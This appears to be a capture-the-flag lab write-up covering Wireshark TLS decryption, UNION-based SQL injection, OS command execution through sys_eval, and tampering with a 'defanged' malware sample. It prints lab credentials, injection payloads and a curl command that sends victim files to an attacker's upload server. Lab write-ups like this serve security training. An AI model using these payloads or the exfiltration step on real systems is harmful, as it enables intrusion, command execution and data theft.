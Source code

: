 
## *Wireshark (TASK 1)*
>	- Loading the TLS log file into the Pre-Master-Secret log filename within `Edit>Preferences>Protocols>TLS` to decrypt the traffic.![](wireshark-config.png)
>	- Loading the .pcap file and analyzing the traffic by applying a filter to show HTTP traffic.![](http-filter.png)
>	- The POST request to the login page when decrypted should contain the username and password.![](user-creds.png)
## *TASK 2*
>	- Relational Database Management System
>	- Create Read Update Delete
>	- Structured Query Language
## *SQLi (TASK 3)*
>	- Using the found credentials `lannister:hrpTfL42wMv3` to login to the product page on `http://10.10.21.105:8000/login.php`.![](logged-in.png)
>	- Testing for the presence of In-Band SQLi vulnerability with `'`.![](inband-sqli.png)
>	- Enumerating for the number of columns returned using `' UNION SELECT 1,2 -- //`.![](num-cols-1.png)![](num-cols-2.png)
>	- Get the database name using `' UNION SELECT 1,2,3,4,database() -- //`.![](db-name.png)
>	- Using the database name, get the table names inside it using `' UNION SELECT 1,2,3,4,table_name FROM information_schema.tables -- //`. A lot of tables are shown, only showing a small portion.![](table-name-1.png)![](table-name-2.png)![](table-name-3.png)
>	- Table `easter_egg` is interesting, getting the columns using `' UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'easter_egg' -- //`.![](easter-egg-cols.png)
>	- Querying the table using `' UNION SELECT 1,2,3,url_path,message FROM easter_egg -- //`.![](easter-egg-table.png)
>	- Going to the path found.![](easter-egg.png)
>	- Going back the table names found, the tables `users` and `unlisted_products` are interesting.
>	- Check the `unlisted_products` table since the name is implies private.
>	- Getting the column names using `' UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name = 'unlisted_products' -- //`.![](table-cols.png)
>	- Querying the table with the columns using `' UNION SELECT * FROM unlisted_products -- //`.![](unlisted-prod.png)
## *TASK 4*
>	- Testing for SQLi vulnerability within the URL of the path found using `/os_sqli.php?user=lannister' -- //`.![](sqli-vuln.png)
>	- Getting the number of columns with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,5 -- //`.![](vuln-path-cols.png)
>	- Check shell command executing using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('whoami') -- //`.![](shell-exec-test.png)
>	- Checking the working directory using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('pwd') -- //`.![](working-dir.png)
## *TASK 5*
>	- Enumerating the machine to view directories using, `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('ls /home/receipts') -- //`the directory `/home/recipes/` contain encrypted files.![](recipe-files.png)
>	- Going back to the table names found, the table `transactions` is interesting in this case.
>	- Getting the column names and enumerating the content using the same process as before.![](transactions-table.png)
>	- To decrypt the file, we have to transfer the entire directory first to the attacking machine.
>	- Using Python's `uploadserver` module on the attacking machine
>		- Create a directory to upload in.
>		- start the server using `python3 -m uploadserver 8000`.
>		- Using `curl -X POST http://10.9.224.110:8000/upload -F 'files=@/home/receipts/<file-name>'` command inside the `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('') -- //` command on each file in the directory.
>		- ![](file-upload.png)
>	- Now, using the found addresses, decrypt the files using `gpg --decrypt <file-name>` and when prompted for a key use the address.![](file-decrypted.png)
## *TASK 6*
>	- Using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('ls%20 "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0"') -- //` to view the content of the malware directory.![](malware-dir.png)
>	- Looking at the `readme.txt` file.![](malware-readme.png)
>	- Viewing the content of the `config.ini` file.![](malware-config.png)
>	- Using `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('echo "debug=true" > "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/config.ini"') -- //` to change the value of the debug to true to stop the effect of the malware.![](malware-new-config.png)
>	- From the name of the file `mmmmbar.nim`, the programming language can be found.
>	- By inspecting the malware file with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('tail -n +20 "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/mmmbar.nim"') -- //`, the file type can be found.![](malware.png)
>	- Running the "defanged" malware with `/os_sqli.php?user=lannister' UNION SELECT 1,2,3,4,sys_eval('nim "/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/mmmbar.nim"') -- //` to view the flag.![](flag.png)
>	- 